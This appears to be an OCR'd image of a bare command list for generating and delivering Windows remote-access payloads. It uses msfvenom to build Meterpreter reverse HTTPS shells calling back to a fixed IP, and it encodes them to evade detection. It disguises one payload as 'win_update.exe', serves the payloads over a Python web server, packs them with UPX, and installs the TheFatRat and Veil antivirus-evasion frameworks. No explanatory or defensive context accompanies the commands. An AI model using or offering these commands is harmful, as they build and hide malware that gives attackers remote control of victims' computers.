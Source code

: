 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe


msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/payload_encoded.exe



upx --best --ultra-brute payload_encoded.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh

sudo ./fatrat

cd ~
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
sudo ./config/setup.sh --force

sudo veil

sudo ln -s /home/ray_king11/Veil/Veil.py /usr/local/bin/veil


sudo dpkg --add-architecture i386
sudo mkdir -pm755 /etc/apt/keyrings
sudo wget -O /etc/apt/keyrings/winehq-archive.key https://dl.winehq.org/wine-builds/winehq.key


sudo wget -NP /etc/apt/sources.list.d/ https://dl.winehq.org/wine-builds/debian/dists/bookworm/winehq-bookworm.sources

sudo apt update

sudo apt install --install-recommends winehq-stable -y






